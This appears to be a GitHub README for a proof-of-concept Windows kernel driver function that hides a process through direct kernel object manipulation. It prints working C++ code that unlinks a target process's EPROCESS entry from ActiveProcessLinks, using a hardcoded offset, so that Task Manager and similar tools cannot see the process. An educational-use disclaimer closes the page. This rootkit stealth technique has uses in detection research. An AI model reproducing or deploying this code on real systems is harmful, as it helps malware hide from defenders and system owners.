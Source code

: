 # DKOM-Process-Unlinker
**POC for Kernel-Level Process Hiding via Direct Kernel Object Manipulation (DKOM)**

This project demonstrates a minimalistic Proof of Concept (POC) for hiding a process in Windows kernel mode by directly manipulating kernel objects **(DKOM - Direct Kernel Object Manipulation)**.
It unlinks a target process's **EPROCESS** structure from the ActiveProcessLinks list, making the process invisible to standard process enumeration tools like Task Manager.

---

```cpp
// Hides a process from the active process linked list in the kernel
NTSTATUS HideProcess(int processId)
{
    PEPROCESS targetProcess = nullptr;

    // Look up the process object by its PID
    NTSTATUS status = PsLookupProcessByProcessId((HANDLE)processId, &targetProcess);
    if (!NT_SUCCESS(status) || !targetProcess)
    {
        return STATUS_UNSUCCESSFUL;
    }

    // Get the ActiveProcessLinks entry from the EPROCESS structure
    LIST_ENTRY* activeProcessLinks = (LIST_ENTRY*)((CHAR*)targetProcess + 0x448);

    // Unlink the process from the active process list
    LIST_ENTRY* prevEntry = activeProcessLinks->Blink;
    LIST_ENTRY* nextEntry = activeProcessLinks->Flink;

    prevEntry->Flink = nextEntry;
    nextEntry->Blink = prevEntry;

    return STATUS_SUCCESS;
}
```
---

## Disclaimer

This project is for **educational and research purposes only**.  
I do **not** condone or support malicious use of this information.  
Use responsibly, in controlled environments, and at your own risk.

---


